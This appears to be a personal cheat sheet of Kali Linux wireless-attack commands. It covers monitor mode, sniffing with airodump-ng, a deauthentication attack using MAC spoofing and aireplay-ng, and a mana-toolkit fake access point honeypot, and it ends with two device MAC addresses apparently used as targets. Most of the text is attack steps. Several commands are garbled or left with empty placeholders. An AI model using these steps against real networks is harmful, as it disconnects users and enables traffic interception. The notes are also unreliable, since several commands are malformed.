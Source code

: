 # kali

iwconfig wlan0
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
iwconfig wlan0
airodump-ng wlan0
'ctrl-c' stop sniffing
ID-power-beacons
airodump-ng --channel[channel] --bssid[] -write
airodump-ng --channel 2 --bssid[] --write test -apcwlan0 ???????????????
wireshark open file ??????????

deauth attack--disconnects device from network
spoof our MAC address to the target client MAC address (pretend to be him)
send deauthentication packet to router
simultaneously spook our MAC address to the access point MAC address (router) and tell the target client you need to re-authenticate yourself

airodump-ng --channel[] --bssid[] wlan0
aireplay-ng --deauth 10000 -a -c wlan0

Fake access point (honey pot)
apt-get install mana-toolkit
gedit /etc/mana-toolkit/host apd-mana.conf
gedit /usr/share/mana-toolkit/run-mana/start-nat-simple.sh
bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh

 phone DC:EF:09:D0:A8:02
 ABX C0:56:27:71:8E:24
